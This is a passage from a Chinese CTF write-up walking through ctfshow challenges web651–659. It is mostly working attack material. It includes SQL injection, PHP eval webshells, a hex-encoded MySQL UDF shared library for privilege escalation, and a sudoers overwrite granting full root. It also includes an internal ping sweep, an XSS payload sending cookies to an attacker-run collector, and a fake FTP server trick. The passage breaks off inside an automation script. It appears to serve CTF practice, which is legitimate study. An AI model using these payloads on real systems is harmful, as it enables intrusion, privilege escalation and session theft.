    die('651flag未拿到');
}
if(isset($_POST['file']) && file_exists($_POST['file'])){
    if(db::get_key()==$_POST['key']){
        include __DIR__.DIRECTORY_SEPARATOR.$_POST['file'];
    }
}
```

先去拿一下`key`

```
/page.php?id=222)+union+select+*+from+ctfshow_keys%23

key_is_here_you_know
```

重新进后台包含木马(因为我直接进`common`没成功)

在数据还原这里，但是直接上传不行后面想想我们之前貌似是拿到了`backup.dat`

但是路径又找不到，回去找到在`init.php`里面

这里终于是成功了

```
POST /system36d/util/common.php?k=flag_651=ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}&a=ls HTTP/1.1
Host: cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show
Cookie: uid=10; cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg; PHPSESSID=372619038
Content-Length: 81
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/util/common.php?k=flag_651=ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}&a=ls
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close

key=key_is_here_you_know&file=..%2Fdb%2Fdata_you_never_know.db&a=phpinfo%28%29%3B
```

链接`antsword`



```
flag_653=ctfshow{5526710eb3ed7b4742232d6d6f9ee3a9}
```

查看不了在之前的包里面RCE拿到的

# web654

之前我们看到了SQL的密码所以连接一下，来提权(~~从没接触过~~之前只会suid啥的)

```sql
show variables like "%secure%"
```

> secure_file_priv 为/root/ 
>
> 可以使用UDF提权,其本身就是上传一个恶意so文件来作为外部函数，然后我们就可以传入一个高权限的.so指令，再在mysql里面调用这个函数即可

```sql
show variables like "%plugin%";

/usr/lib/mariadb/plugin/
```

`plugin`路径也就是`so`文件上传路径这里我们去到`sqlmap`里面找到恶意`so`文件

```
sqlmap路径\data\udf\mysql\linux\64\lib_mysqludf_sys.so_
```

```
POST /system36d/util/common.php?k=flag_651=ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}&a=ls HTTP/1.1
Host: cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show
Cookie: uid=10; cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg; PHPSESSID=372619038
Content-Length: 15585
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://cbc10adb-8c59-4c8d-8421-d76f5803d61f.challenge.ctf.show/system36d/util/common.php?k=flag_651=ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}&a=ls
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close

key=key_is_here_you_know&file=..%2Fdb%2Fdata_you_never_know.db&a=file_put_contents('udf.so',hex2bin('7f454c4602010100000000000000000003003e0001000000d00c0000000000004000000000000000e8180000000000000000000040003800050040001a00190001000000050000000000000000000000000000000000000000000000000000001415000000000000141500000000000000002000000000000100000006000000181500000000000018152000000000001815200000000000700200000000000080020000000000000000200000000000020000000600000040150000000000004015200000000000401520000000000090010000000000009001000000000000080000000000000050e57464040000006412000000000000641200000000000064120000000000009c000000000000009c00000000000000040000000000000051e5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000000800000000000000250000002b0000001500000005000000280000001e000000000000000000000006000000000000000c00000000000000070000002a00000009000000210000000000000000000000270000000b0000002200000018000000240000000e00000000000000040000001d0000001600000000000000130000000000000000000000120000002300000010000000250000001a0000000f000000000000000000000000000000000000001b00000000000000030000000000000000000000000000000000000000000000000000002900000014000000000000001900000020000000000000000a00000011000000000000000000000000000000000000000d0000002600000017000000000000000800000000000000000000000000000000000000000000001f0000001c0000000000000000000000000000000000000000000000020000000000000011000000140000000200000007000000800803499119c4c93da4400398046883140000001600000017000000190000001b0000001d0000002000000022000000000000002300000000000000240000002500000027000000290000002a00000000000000ce2cc0ba673c7690ebd3ef0e78722788b98df10ed871581cc1e2f7dea868be12bbe3927c7e8b92cd1e7066a9c3f9bfba745bb073371974ec4345d5ecc5a62c1cc3138aff36ac68ae3b9fd4a0ac73d1c525681b320b5911feab5fbe120000000000000000000000000000000000000000000000000000000003000900a00b0000000000000000000000000000010000002000000000000000000000000000000000000000250000002000000000000000000000000000000000000000e0000000120000000000000000000000de01000000000000790100001200000000000000000000007700000000000000ba0000001200000000000000000000003504000000000000f5000000120000000000000000000000c2010000000000009e010000120000000000000000000000d900000000000000fb000000120000000000000000000000050000000000000016000000220000000000000000000000fe00000000000000cf000000120000000000000000000000ad00000000000000880100001200000000000000000000008000000000000000ab010000120000000000000000000000250100000000000010010000120000000000000000000000dc00000000000000c7000000120000000000000000000000c200000000000000b5000000120000000000000000000000cc02000000000000ed000000120000000000000000000000e802000000000000e70000001200000000000000000000009b00000000000000c200000012000000000000000000000028000000000000008001000012000b007a100000000000006e000000000000007500000012000b00a70d00000000000001000000000000001000000012000c00781100000000000000000000000000003f01000012000b001a100000000000002d000000000000001f01000012000900a00b0000000000000000000000000000c30100001000f1ff881720000000000000000000000000009600000012000b00ab0d00000000000001000000000000007001000012000b0066100000000000001400000000000000cf0100001000f1ff981720000000000000000000000000005600000012000b00a50d00000000000001000000000000000201000012000b002e0f0000000000002900000000000000a301000012000b00f71000000000000041000000000000003900000012000b00a40d00000000000001000000000000003201000012000b00ea0f0000000000003000000000000000bc0100001000f1ff881720000000000000000000000000006500000012000b00a60d00000000000001000000000000002501000012000b00800f0000000000006a000000000000008500000012000b00a80d00000000000003000000000000001701000012000b00570f00000000000029000000000000005501000012000b0047100000000000001f00000000000000a900000012000b00ac0d0000000000009a000000000000008f01000012000b00e8100000000000000f00000000000000d700000012000b00460e000000000000e800000000000000005f5f676d6f6e5f73746172745f5f005f66696e69005f5f6378615f66696e616c697a65005f4a765f5265676973746572436c6173736573006c69625f6d7973716c7564665f7379735f696e666f5f6465696e6974007379735f6765745f6465696e6974007379735f657865635f6465696e6974007379735f6576616c5f6465696e6974007379735f62696e6576616c5f696e6974007379735f62696e6576616c5f6465696e6974007379735f62696e6576616c00666f726b00737973636f6e66006d6d6170007374726e6370790077616974706964007379735f6576616c006d616c6c6f6300706f70656e007265616c6c6f630066676574730070636c6f7365007379735f6576616c5f696e697400737472637079007379735f657865635f696e6974007379735f7365745f696e6974007379735f6765745f696e6974006c69625f6d7973716c7564665f7379735f696e666f006c69625f6d7973716c7564665f7379735f696e666f5f696e6974007379735f657865630073797374656d007379735f73657400736574656e76007379735f7365745f6465696e69740066726565007379735f67657400676574656e76006c6962632e736f2e36005f6564617461005f5f6273735f7374617274005f656e6400474c4942435f322e322e35000000000000000000020002000200020002000200020002000200020002000200020002000200020001000100010001000100010001000100010001000100010001000100010001000100010001000100010001000100000001000100b20100001000000000000000751a690900000200d401000000000000801720000000000008000000000000008017200000000000d01620000000000006000000020000000000000000000000d81620000000000006000000030000000000000000000000e016200000000000060000000a00000000000000000000000017200000000000070000000400000000000000000000000817200000000000070000000500000000000000000000001017200000000000070000000600000000000000000000001817200000000000070000000700000000000000000000002017200000000000070000000800000000000000000000002817200000000000070000000900000000000000000000003017200000000000070000000a00000000000000000000003817200000000000070000000b00000000000000000000004017200000000000070000000c00000000000000000000004817200000000000070000000d00000000000000000000005017200000000000070000000e00000000000000000000005817200000000000070000000f00000000000000000000006017200000000000070000001000000000000000000000006817200000000000070000001100000000000000000000007017200000000000070000001200000000000000000000007817200000000000070000001300000000000000000000004883ec08e827010000e8c2010000e88d0500004883c408c3ff35320b2000ff25340b20000f1f4000ff25320b20006800000000e9e0ffffffff252a0b20006801000000e9d0ffffffff25220b20006802000000e9c0ffffffff251a0b20006803000000e9b0ffffffff25120b20006804000000e9a0ffffffff250a0b20006805000000e990ffffffff25020b20006806000000e980ffffffff25fa0a20006807000000e970ffffffff25f20a20006808000000e960ffffffff25ea0a20006809000000e950ffffffff25e20a2000680a000000e940ffffffff25da0a2000680b000000e930ffffffff25d20a2000680c000000e920ffffffff25ca0a2000680d000000e910ffffffff25c20a2000680e000000e900ffffffff25ba0a2000680f000000e9f0feffff00000000000000004883ec08488b05f50920004885c07402ffd04883c408c390909090909090909055803d900a2000004889e5415453756248833dd809200000740c488b3d6f0a2000e812ffffff488d05130820004c8d2504082000488b15650a20004c29e048c1f803488d58ff4839da73200f1f440000488d4201488905450a200041ff14c4488b153a0a20004839da72e5c605260a2000015b415cc9c3660f1f8400000000005548833dbf072000004889e57422488b05530920004885c07416488d3da70720004989c3c941ffe30f1f840000000000c9c39090c3c3c3c331c0c3c341544883c9ff4989f455534883ec10488b4610488b3831c0f2ae48f7d1488d69ffe8b6feffff83f80089c77c61754fbf1e000000e803feffff488d70ff4531c94531c031ffb921000000ba07000000488d042e48f7d64821c6e8aefeffff4883f8ff4889c37427498b4424104889ea4889df488b30e852feffffffd3eb0cba0100000031f6e802feffff31c0eb05b8010000005a595b5d415cc34157bf00040000415641554531ed415455534889f34883ec1848894c24104c89442408e85afdffffbf010000004989c6e84dfdffffc600004889c5488b4310488d356a030000488b38e814feffff4989c7eb374c89f731c04883c9fff2ae4889ef48f7d1488d59ff4d8d641d004c89e6e8ddfdffff4a8d3c284889da4c89f64d89e54889c5e8a8fdffff4c89fabe080000004c89f7e818fdffff4885c075b44c89ffe82bfdffff807d0000750a488b442408c60001eb1f42c6442dff0031c04883c9ff4889eff2ae488b44241048f7d148ffc94889084883c4184889e85b5d415c415d415e415fc34883ec08833e014889d7750b488b460831d2833800740e488d353a020000e817fdffffb20188d05ec34883ec08833e014889d7750b488b460831d2833800740e488d3511020000e8eefcffffb20188d05fc3554889fd534889d34883ec08833e027409488d3519020000eb3f488b46088338007409488d3526020000eb2dc7400400000000488b4618488b384883c70248037808e801fcffff31d24885c0488945107511488d351f0200004889dfe887fcffffb20141585b88d05dc34883ec08833e014889f94889d77510488b46088338007507c6010131c0eb0e488d3576010000e853fcffffb0014159c34154488d35ef0100004989cc4889d7534889d34883ec08e832fcffff49c704241e0000004889d8415a5b415cc34883ec0831c0833e004889d7740e488d35d5010000e807fcffffb001415bc34883ec08488b4610488b38e862fbffff5a4898c34883ec28488b46184c8b4f104989f2488b08488b46104c89cf488b004d8d4409014889c6f3a44c89c7498b4218488b0041c6040100498b4210498b5218488b4008488b4a08ba010000004889c6f3a44c89c64c89cf498b4218488b400841c6040000e867fbffff4883c4284898c3488b7f104885ff7405e912fbffffc3554889cd534c89c34883ec08488b4610488b38e849fbffff4885c04889c27505c60301eb1531c04883c9ff4889d7f2ae48f7d148ffc948894d00595b4889d05dc39090909090909090554889e5534883ec08488b05c80320004883f8ff7419488d1dbb0320000f1f004883eb08ffd0488b034883f8ff75f14883c4085bc9c390904883ec08e86ffbffff4883c408c345787065637465642065786163746c79206f6e6520737472696e67207479706520706172616d657465720045787065637465642065786163746c792074776f20617267756d656e747300457870656374656420737472696e67207479706520666f72206e616d6520706172616d6574657200436f756c64206e6f7420616c6c6f63617465206d656d6f7279006c69625f6d7973716c7564665f7379732076657273696f6e20302e302e34004e6f20617267756d656e747320616c6c6f77656420287564663a206c69625f6d7973716c7564665f7379735f696e666f290000011b033b980000001200000040fbffffb400000041fbffffcc00000042fbffffe400000043fbfffffc00000044fbffff1401000047fbffff2c01000048fbffff44010000e2fbffff6c010000cafcffffa4010000f3fcffffbc0100001cfdffffd401000086fdfffff4010000b6fdffff0c020000e3fdffff2c02000002feffff4402000016feffff5c02000084feffff7402000093feffff8c0200001400000000000000017a5200017810011b0c070890010000140000001c00000084faffff01000000000000000000000014000000340000006dfaffff010000000000000000000000140000004c00000056faffff01000000000000000000000014000000640000003ffaffff010000000000000000000000140000007c00000028faffff030000000000000000000000140000009400000013faffff01000000000000000000000024000000ac000000fcf9ffff9a00000000420e108c02480e18410e20440e3083048603000000000034000000d40000006efaffffe800000000420e10470e18420e208d048e038f02450e28410e30410e38830786068c05470e50000000000000140000000c0100001efbffff2900000000440e100000000014000000240100002ffbffff2900000000440e10000000001c0000003c01000040fbffff6a00000000410e108602440e188303470e200000140000005c0100008afbffff3000000000440e10000000001c00000074010000a2fbffff2d00000000420e108c024e0e188303470e2000001400000094010000affbffff1f00000000440e100000000014000000ac010000b6fbffff1400000000440e100000000014000000c4010000b2fbffff6e00000000440e300000000014000000dc01000008fcffff0f00000000000000000000001c000000f4010000fffbffff4100000000410e108602440e188303470e2000000000000000000000ffffffffffffffff0000000000000000ffffffffffffffff000000000000000000000000000000000100000000000000b2010000000000000c00000000000000a00b0000000000000d00000000000000781100000000000004000000000000005801000000000000f5feff6f00000000a00200000000000005000000000000006807000000000000060000000000000060030000000000000a00000000000000e0010000000000000b0000000000000018000000000000000300000000000000e81620000000000002000000000000008001000000000000140000000000000007000000000000001700000000000000200a0000000000000700000000000000c0090000000000000800000000000000600000000000000009000000000000001800000000000000feffff6f00000000a009000000000000ffffff6f000000000100000000000000f0ffff6f000000004809000000000000f9ffff6f0000000001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000401520000000000000000000000000000000000000000000ce0b000000000000de0b000000000000ee0b000000000000fe0b0000000000000e0c0000000000001e0c0000000000002e0c0000000000003e0c0000000000004e0c0000000000005e0c0000000000006e0c0000000000007e0c0000000000008e0c0000000000009e0c000000000000ae0c000000000000be0c0000000000008017200000000000004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200002e7368737472746162002e676e752e68617368002e64796e73796d002e64796e737472002e676e752e76657273696f6e002e676e752e76657273696f6e5f72002e72656c612e64796e002e72656c612e706c74002e696e6974002e74657874002e66696e69002e726f64617461002e65685f6672616d655f686472002e65685f6672616d65002e63746f7273002e64746f7273002e6a6372002e64796e616d6963002e676f74002e676f742e706c74002e64617461002e627373002e636f6d6d656e7400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000f0000000500000002000000000000005801000000000000580100000000000048010000000000000300000000000000080000000000000004000000000000000b000000f6ffff6f0200000000000000a002000000000000a002000000000000c000000000000000030000000000000008000000000000000000000000000000150000000b00000002000000000000006003000000000000600300000000000008040000000000000400000002000000080000000000000018000000000000001d00000003000000020000000000000068070000000000006807000000000000e00100000000000000000000000000000100000000000000000000000000000025000000ffffff6f020000000000000048090000000000004809000000000000560000000000000003000000000000000200000000000000020000000000000032000000feffff6f0200000000000000a009000000000000a009000000000000200000000000000004000000010000000800000000000000000000000000000041000000040000000200000000000000c009000000000000c00900000000000060000000000000000300000000000000080000000000000018000000000000004b000000040000000200000000000000200a000000000000200a0000000000008001000000000000030000000a0000000800000000000000180000000000000055000000010000000600000000000000a00b000000000000a00b000000000000180000000000000000000000000000000400000000000000000000000000000050000000010000000600000000000000b80b000000000000b80b00000000000010010000000000000000000000000000040000000000000010000000000000005b000000010000000600000000000000d00c000000000000d00c000000000000a80400000000000000000000000000001000000000000000000000000000000061000000010000000600000000000000781100000000000078110000000000000e000000000000000000000000000000040000000000000000000000000000006700000001000000320000000000000086110000000000008611000000000000dd000000000000000000000000000000010000000000000001000000000000006f000000010000000200000000000000641200000000000064120000000000009c000000000000000000000000000000040000000000000000000000000000007d000000010000000200000000000000001300000000000000130000000000001402000000000000000000000000000008000000000000000000000000000000870000000100000003000000000000001815200000000000181500000000000010000000000000000000000000000000080000000000000000000000000000008e000000010000000300000000000000281520000000000028150000000000001000000000000000000000000000000008000000000000000000000000000000950000000100000003000000000000003815200000000000381500000000000008000000000000000000000000000000080000000000000000000000000000009a000000060000000300000000000000401520000000000040150000000000009001000000000000040000000000000008000000000000001000000000000000a3000000010000000300000000000000d016200000000000d0160000000000001800000000000000000000000000000008000000000000000800000000000000a8000000010000000300000000000000e8162000'));
```

然后执行命令(在终端里面)

```shell
cp /var/www/html/system36d/util/udf.so /usr/lib/mariadb/plugin/udf.so
```

再在sql里面执行命令

```sql
# 创建恶意函数
create function sys_eval returns string soname 'udf.so';
# 看看成功没
select * from mysql.func where name = 'sys_eval';
# 执行命令
select sys_eval('sudo ls /root');
select sys_eval('sudo cat /root/you_win');
```

```tex
祝贺你，你已经完全控制了这台服务器，为你一路以来的坚持和努力，点赞！

                  真不容易啊，师傅好样的！

不过别高兴的太早，这只是第一关，后面还有更艰难的挑战，你准备好了吗！

对了，这是给你的flag 

flag_654=ctfshow{4ab2c2ccd0c3c35fdba418d8502f5da9} 

                                   ——大菜鸡 2021年8月2日02时12�
```

# web655

先给我们自己加权限

```
www-data ALL=(ALL:ALL) NOPASSWD:ALL

echo 'd3d3LWRhdGEgQUxMPShBTEw6QUxMKSBOT1BBU1NXRDpBTEw='|base64 -d >/var/www/html/sudoers
```

```sql
select sys_eval('sudo cp /var/www/html/sudoers /etc/sudoers');
```

```
sudo id
```

欧克啊，内网看看了

```
eth0      Link encap:Ethernet  HWaddr 02:42:AC:02:29:04  
          inet addr:172.2.41.4  Bcast:172.2.41.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1450  Metric:1
          RX packets:19306 errors:0 dropped:0 overruns:0 frame:0
          TX packets:16357 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:6516844 (6.2 MiB)  TX bytes:22335780 (21.3 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:105898 errors:0 dropped:0 overruns:0 frame:0
          TX packets:105898 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:29018140 (27.6 MiB)  TX bytes:29018140 (27.6 MiB)
```

发现IP,`172.2.41.4`

写个`sh`来挨个`ping`

```sh
#!/bin/bash
ip=1
while [ $ip != "254" ]; do
    ping 172.2.41.$ip -c 2 | grep -q "ttl=" && echo "172.2.41.$ip yes" || echo "172.2.41.$ip no" >/dev/null 2>&1
    ip=`expr "$ip" "+" "1"`
done
```

```
echo 'IyEvYmluL2Jhc2gKaXA9MQp3aGlsZSBbICRpcCAhPSAiMjU0IiBdOyBkbwogICAgcGluZyAxNzIuMi40MS4kaXAgLWMgMiB8IGdyZXAgLXEgInR0bD0iICYmIGVjaG8gIjE3Mi4yLjQxLiRpcCB5ZXMiIHx8IGVjaG8gIjE3Mi4yLjQxLiRpcCBubyIgPi9kZXYvbnVsbCAyPiYxCiAgICBpcD1gZXhwciAiJGlwIiAiKyIgIjEiYApkb25l'|base64 -d > 1.sh
```

然后发现死活不能执行

```
sudo chmod 755 1.sh

./1.sh > a.txt

(www-data:/var/www/html) $ cat a.txt
172.2.41.1 yes
172.2.41.2 yes
172.2.41.3 yes
172.2.41.4 yes
172.2.41.5 yes
172.2.41.6 yes
172.2.41.7 yes
```

终于拿到了然后就酷酷测试吧

在原来的写入文件页面执行命令

```
a=echo `curl http://172.2.41.5/phpinfo.php`;

flag_655=ctfshow{aada21bce99ddeab20020ac714686303}
```

# web656

同时发现这里还有源码，搞下来米西米西

```
echo 'PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg=='|base64 -d > /var/www/html/shell.php
```

我原先误以为重新写个马来连接，能行的，结果还是不行，那么只能在机器上面搞了

```
sudo chmod 644 www.zip

sudo unzip www.zip
```

还是不行，最后我突然想到说，我直接访问下载不就行了

```php
function index(){
    $html='管理员请注意，下面是最近登陆失败用户：<br>';
    $ret=db::query('select username,login_time,login_ip from ctfshow_logs  order by id desc limit 3');
    foreach ($ret as $r) {
    	$html .='------------<br>用户名: '.htmlspecialchars($r[0]).'<br>登陆失败时间: '
    	.$r[1]
    	.'<br>登陆失败IP: '
    	.$r[2].
    	'<br>------------<br>';
    }
    return $html;
    
}
```

这边看到可以打一个`xss`,但是从哪里打呢又发现`username`和`password`有函数保护，所以用`xff`

```
a=echo `curl -H 'X-Forwarded-For: <script>alert(1);</script>' http://172.2.41.3//index.php?action=login`;
```

写文件把`cookie`打出来

```php
<?php
$content = $_GET[1];
if(isset($content)){
     file_put_contents('cookie.txt',$content);
}else{
     echo 'nonono';
}
```

```js
var img = new Image();
img.src = "http://172.2.41.4/xss.php?1="+document.cookie;
document.body.append(img);
```

````
echo 'PD9waHAKJGNvbnRlbnQgPSAkX0dFVFsxXTsKaWYoaXNzZXQoJGNvbnRlbnQpKXsKICAgICBmaWxlX3B1dF9jb250ZW50cygnY29va2llLnR4dCcsJGNvbnRlbnQpOwp9ZWxzZXsKICAgICBlY2hvICdub25vbm8nOwp9'|base64 -d > xss.php

echo 'dmFyIGltZyA9IG5ldyBJbWFnZSgpOwppbWcuc3JjID0gImh0dHA6Ly8xNzIuMi40MS40L3hzcy5waHA/MT0iK2RvY3VtZW50LmNvb2tpZTsKZG9jdW1lbnQuYm9keS5hcHBlbmQoaW1nKTs='|base64 -d > xss.js
````

```
select sys_eval('sudo curl -i -H "X-Forwarded-For:<script>document.location=\'http://172.2.41.4/xss.php?cookie=\'%2bdocument.cookie;</script>"  http://172.2.41.5/index.php?action=login');
```

X 出cookie了但是没有`flag`(拿别人的交了不小心点到提示还扣了我300分)

什么情况

```
(www-data:/var/www/html) $ cat cookie.txt
PHPSESSID=v8qgc9jfofr940r74jqmolt2k1; auth=ZmxhZ182NTY9Y3Rmc2hvd3tlMGI4MGQ2Yjk5ZDJiZGJhZTM2ZjEyMWY3OGFiZTk2Yn0=
```

# web657

```php
function getFlag(){
	return  FLAG_657;
}

function main($m){
	$ret = array(
	'code'=>0,
	'message'=>'数据获取失败',
	);
	if($_SESSION['login']==true){
		
		switch ($m) {
			case 'getFlag':
				$ret['message']=getFlag();
				break;
			case 'testFile':
				$ret['message']=testFile($_GET['f']);
				break;
			default:
				# code...
				break;
		}
		

	}else{
		$ret['message']='请先登陆';
	}

	return json_encode($ret);
}
```

那么带着`cookie`上就行

```
(www-data:/var/www/html) $ curl -H 'Cookie:PHPSESSID=v8qgc9jfofr940r74jqmolt2k1; auth=ZmxhZ182NTY9Y3Rmc2hvd3tlMGI4MGQ2Yjk5ZDJiZGJhZTM2ZjEyMWY3OGFiZTk2Yn0=' '172.2.41.5/index.php?action=main&m=getFlag'

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0 100    73    0    73    0     0  73000      0 --:--:-- --:--:-- --:--:-- 73000
{"code":0,"message":"flag_657=ctfshow{2a73f8f87a58a13c23818fafd83510b1}"}
```

# web658

```php
function testFile($f){
	$result = '';
	$file = $f.md5(md5(random_int(1,10000)).md5(random_int(1,10000))).'.php';
	if(file_exists($file)){
		$result = FLAG_658;
	}
	return $result;

}
```

爆破文件名

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('0.0.0.0', 21))
s.listen(1)
print('listening 0.0.0.0 21\n')
conn, addr = s.accept()
conn.send(b'220 a\n')
conn.send(b'230 a\n')
conn.send(b'200 a\n')
conn.send(b'200 a\n')
conn.send(b'200\n')
conn.send(b'200 a\n')
conn.send(b'200\n')
conn.send(b'200 a\n')
conn.close()
```

```
echo 'aW1wb3J0IHNvY2tldApzID0gc29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCwgc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmJpbmQoKCcwLjAuMC4wJywgMjEpKQpzLmxpc3RlbigxKQpwcmludCgnbGlzdGVuaW5nIDAuMC4wLjAgMjFcbicpCmNvbm4sIGFkZHIgPSBzLmFjY2VwdCgpCmNvbm4uc2VuZChiJzIyMCBhXG4nKQpjb25uLnNlbmQoYicyMzAgYVxuJykKY29ubi5zZW5kKGInMjAwIGFcbicpCmNvbm4uc2VuZChiJzIwMCBhXG4nKQpjb25uLnNlbmQoYicyMDBcbicpCmNvbm4uc2VuZChiJzIwMCBhXG4nKQpjb25uLnNlbmQoYicyMDBcbicpCmNvbm4uc2VuZChiJzIwMCBhXG4nKQpjb25uLmNsb3NlKCkK'|base64 -d > 1.py
```

```
python 1.py

curl -H 'PHPSESSID=v8qgc9jfofr940r74jqmolt2k1; auth=ZmxhZ182NTY9Y3Rmc2hvd3tlMGI4MGQ2Yjk5ZDJiZGJhZTM2ZjEyMWY3OGFiZTk2Yn0=' '172.2.41.5/index.php?action=main&m=testFile&f=ftp://172.2.41.4/a'
```

# web659

里面还有`robots.txt`

```
curl http://172.2.41.5/robots.txt

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0 100    19  100    19    0     0   6333      0 --:--:-- --:--:-- --:--:--  6333
disallowed /public/
```

emm 靶机延时用完了，去找个脚本来写马

```python
import requests
import re
import time
import base64
import urllib

sess=requests.session()
url="http://6ad980c6-186e-493f-8373-63593e72a9b6.challenge.ctf.show/"
#模拟数据备份,写入木马
files={'file':('1.php',"<?php eval($_POST[1]);?>","application/octet-stream")}

#生成木马
sess.post(url+"system36d/users.php?action=upload",files=files)
data1={"key":"key_is_here_you_know","file":"../db/data_you_never_know.db","1":"file_put_contents('/var/www/html/a.php','<?php eval($_POST[1]);?>');"}
sess.post(url+'system36d/util/common.php?k=flag_651=ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}',data=data1)

#udf提权
data2={ '1':'file_put_contents(\'udf.so\',hex2bin(\'7f454c4602010100000000000000000003003e0001000000d00c0000000000004000000000000000e8180000000000000000000040003800050040001a00190001000000050000000000000000000000000000000000000000000000000000001415000000000000141500000000000000002000000000000100000006000000181500000000000018152000000000001815200000000000700200000000000080020000000000000000200000000000020000000600000040150000000000004015200000000000401520000000000090010000000000009001000000000000080000000000000050e57464040000006412000000000000641200000000000064120000000000009c000000000000009c00000000000000040000000000000051e5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000000800000000000000250000002b0000001500000005000000280000001e000000000000000000000006000000000000000c00000000000000070000002a00000009000000210000000000000000000000270000000b0000002200000018000000240000000e00000000000000040000001d0000001600000000000000130000000000000000000000120000002300000010000000250000001a0000000f000000000000000000000000000000000000001b00000000000000030000000000000000000000000000000000000000000000000000002900000014000000000000001900000020000000000000000a00000011000000000000000000000000000000000000000d0000002600000017000000000000000800000000000000000000000000000000000000000000001f0000001c0000000000000000000000000000000000000000000000020000000000000011000000140000000200000007000000800803499119c4c93da4400398046883140000001600000017000000190000001b0000001d0000002000000022000000000000002300000000000000240000002500000027000000290000002a00000000000000ce2cc0ba673c7690ebd3ef0e78722788b98df10ed871581cc1e2f7dea868be12bbe3927c7e8b92cd1e7066a9c3f9bfba745bb073371974ec4345d5ecc5a62c1cc3138aff36ac68ae3b9fd4a0ac73d1c525681b320b5911feab5fbe120000000000000000000000000000000000000000000000000000000003000900a00b0000000000000000000000000000010000002000000000000000000000000000000000000000250000002000000000000000000000000000000000000000e0000000120000000000000000000000de01000000000000790100001200000000000000000000007700000000000000ba0000001200000000000000000000003504000000000000f5000000120000000000000000000000c2010000000000009e010000120000000000000000000000d900000000000000fb000000120000000000000000000000050000000000000016000000220000000000000000000000fe00000000000000cf000000120000000000000000000000ad00000000000000880100001200000000000000000000008000000000000000ab010000120000000000000000000000250100000000000010010000120000000000000000000000dc00000000000000c7000000120000000000000000000000c200000000000000b5000000120000000000000000000000cc02000000000000ed000000120000000000000000000000e802000000000000e70000001200000000000000000000009b00000000000000c200000012000000000000000000000028000000000000008001000012000b007a100000000000006e000000000000007500000012000b00a70d00000000000001000000000000001000000012000c00781100000000000000000000000000003f01000012000b001a100000000000002d000000000000001f01000012000900a00b0000000000000000000000000000c30100001000f